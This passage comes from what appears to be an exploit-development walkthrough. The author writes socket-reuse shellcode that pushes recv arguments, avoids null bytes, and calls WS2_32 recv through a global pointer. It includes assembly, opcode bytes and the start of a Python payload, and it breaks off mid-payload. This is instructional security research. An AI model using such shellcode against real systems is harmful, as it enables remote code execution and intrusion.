 Now it's time to put arguments on the stack. First, push a null for the
flags:

    xor ebx, ebx
    push ebx

Next comes the read size. I want to avoid null bytes, so I'll push
something that's not round (0x404 instead of 0x400):

    add bx, 404
    push ebx

It's important to add to bx and not ebx, or else the command will expand
0x404 with some leading null bytes.

Now I need space to output. The article suggests either writing to some
address on the stack and then jumping to it, or just calculating the
address just after the `recv` call and writing it in place. I can just
put ESP minux 0x64 (the amount I spaced in above) in here now, and run
it and check how far from the actual goal it is, and then adjust if
necessary.

I need to call `WS2_32.DLL::recv`. That address will move around in
memory depending on where the DLL is loaded in memory. The legit program
stores the address in a global, loads that into eax, and calls it:

![](/img/image-20220204141100479.png)

The global is at 0x719082ac:

![](/img/image-20220204141314037.png)



    metasm > mov eax, [0x719082ac]
    "\xa1\xac\x82\x90\x71"
    metasm > call eax
    "\xff\xd0"



The payload is now:



    recv_sc = (
            # get socket descriptor in esi
            b"\x54"                   # push esp
            b"\x58"                   # pop eax
            b"\x66\x05\x49\x01"       # add ax, 0x149
            b"\x66\x2d\x01\x01"       # sub ax, 0x101
            b"\x8b\x30"               # mov esi, dword [eax]
